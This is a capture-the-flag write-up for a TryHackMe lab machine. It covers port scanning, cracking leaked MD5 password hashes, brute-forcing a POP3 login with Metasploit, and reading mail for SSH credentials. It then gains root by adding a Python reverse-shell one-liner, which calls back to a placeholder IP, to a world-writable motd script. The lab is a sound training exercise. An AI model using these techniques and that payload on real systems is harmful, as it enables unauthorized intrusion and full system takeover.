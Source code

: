 Room: [Fowsniff CTF](https://tryhackme.com/room/ctf)

Difficulty: Easy

Overview: On-going project

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We will start by enumerating all open ports on the remote system and to do so we can use “nmap”:

```
nmap -sV -sC -p- fowsniff.thm -oN nmap.txt

-sV         → Probe open ports to determine service
-sC         → Scan using the default set of scripts
-p-          → Scan all ports
fowsniff.thm  → ip address of the room (added the ip to /etc/hosts and named it)
-oN         → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/166565008-389610f8-322e-4664-863a-c1e9ec04125c.png)

There are four open ports on the system:

22 → OpenSSH 7.2p2 Ubuntu

80 → Apache httpd 2.4.18

110 → Dovecot pop3d

143 → Dovecot imapd

Since there is an apache webserver running in the system we can use "Gobuster" to search for hidden directories or files in http servers:

![image](https://user-images.githubusercontent.com/76821053/166566478-31c90dd0-f9fa-49b7-ad12-2373e6c3f384.png)

When analysing the results "Gobuster" found a security.txt file that we can access.

![image](https://user-images.githubusercontent.com/76821053/166566690-190a443c-07cf-4192-ad14-1106a39b6ef5.png)

This server was hacked by BigN1nj4! who left a teaser on the website.

Now, the room gave us a hint to look for information using google. A little later i found that the hacker leaked information on [PASTEBIN](https://pastebin.com/NrAqVeeX).

![image](https://user-images.githubusercontent.com/76821053/166566743-734f9fb9-bd15-4b67-b918-d7f297bac6ed.png)

He leaked email and their respective passwords from their databases. The hashes are encrypted in MD5 and to decrypt them we can use sites like [hashkiller](https://hashkiller.io/listmanager) or [hashes.com](hashes.com/en/decrypt/hash).

![image](https://user-images.githubusercontent.com/76821053/166566776-080788b0-f88a-4eae-909f-708dbb0381ec.png)

After decrypting all MD5 hashes i have created two text files, one with the name of the users found and another with the decrypted passwords.

The purpose is to try to brute force the pop3 login service mail with the dictionaries that we have just created from the two text files.

To find a valid login we can use diferent tools but in this case we will use "metasploit".

```
msfconsole

search pop3  - To search for pop3 related content

use auxiliary/scanner/pop3/pop3_login   - To select the option we want to use
```

![image](https://user-images.githubusercontent.com/76821053/166566786-731828e6-2214-475f-bbf0-2250f6651b5b.png)

```
options  -  To list the module options that we need to set to do our brute force 
```
We have to set PASS_FILE and USER_FILE to the path of our text files and set the RHOSTS to the ip we want to target.

![image](https://user-images.githubusercontent.com/76821053/166566802-9c2d140a-4738-43ac-b074-b1961c60ea39.png)

To run this module just hit run

```
run
```

![image](https://user-images.githubusercontent.com/76821053/166566824-ba1078f4-2aa8-42fd-9d09-88b61cd8b0df.png)

Metaspoit attack found a valid user and respective password. With these credentials we have accessed the pop3 email service hosted at port 110.

To access the email service we can use "Telnet". In this website you can find information "Telnet" about commands https://www.shellhacks.com/retrieve-email-pop3-server-command-line/

```
telnet 10.10.125.75 110

USER seina 

PASS *******

LIST     - Lists all messages

RETR 1   - Retrieve first message

RETR 2   - Retrives second message
```

![image](https://user-images.githubusercontent.com/76821053/166566847-a75b12cc-aff6-426a-9a04-a431d03db427.png)

In the first message there is ssh credentials. They belong to user "backsteen".

With them we can connect to the target machine through ssh:

```
ssh backsteen@fowsniff.thm
```

![image](https://user-images.githubusercontent.com/76821053/166566877-f6437936-4876-428f-b5bd-d136916aa6cf.png)

When enumerating the system i searched for any files that can be run by that group users:

```
find / -group users -type f -exec ls -la {} 2>/dev/null \;

```

![image](https://user-images.githubusercontent.com/76821053/166566901-07448446-f980-4184-ba6a-20aae12e5dd0.png)

Found that users group have read/write permissions of a bash script called cube.sh.

![image](https://user-images.githubusercontent.com/76821053/166566918-dfa97f58-bc9f-43d9-81de-23cb4398adbc.png)

After reading the contents of cube.sh we can recognize that this prints the motd (message of the day) that we receive after connecting through ssh.

If we check the directory /etc/update-motd.d/ and look into the executables, the file “00-header” runs the cube.sh script with root permissions.

![image](https://user-images.githubusercontent.com/76821053/166566946-76373e54-79b5-48c1-bd7b-3e12788de657.png)

This is our way to get a privilege escalation in this machine. Since we have group permissions to write cube.sh script we can try and get a reverse shell by including a python3 reverse shell payload.

We need to edit the cube.sh file with "nano" or "vim" and add the python reverse shell.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Pay attention to the syntax because you need to make a little change. Your ip will be between comas.

![image](https://user-images.githubusercontent.com/76821053/166566976-9d18124e-a0e7-41d2-b4c4-a40a231f04a8.png)

We need to setup a netcat listener and restart the ssh connection to trigger the motd welcome message and it will run our reverse shell.

![image](https://user-images.githubusercontent.com/76821053/166567250-877a7eed-83b5-4f6a-b846-c0b351b966a6.png)

Success we are now root!!

Just for proof of concept we can print the root flag!

![image](https://user-images.githubusercontent.com/76821053/166567045-7163c720-eba6-496b-bfaf-8e3d8667c762.png)










